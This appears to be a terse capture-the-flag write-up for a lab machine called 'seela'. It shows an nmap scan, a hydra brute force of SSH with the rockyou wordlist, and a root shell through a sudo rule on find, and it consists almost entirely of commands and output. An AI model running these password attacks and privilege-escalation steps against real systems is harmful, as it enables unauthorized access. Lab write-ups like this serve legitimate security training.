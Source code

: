 #seela #Seela_saison1

# recon
└─# nmap -Pn -sV -T4 -p 22 -sC 10.42.7.11
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 09:18 EDT
Nmap scan report for 10.42.7.11 (10.42.7.11)
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
```

# exploit
└─# hydra 10.42.7.11 -s 22 ssh -l seela -P /usr/share/wordlists/rockyou.txt
```
[22][ssh] host: 10.42.7.11   login: seela   password: rockyou
```

# foothold with ssh
$ sudo -l
```
(root) /usr/bin/find *
```
~$ sudo find . -exec /bin/sh \; -quit
```
#
```

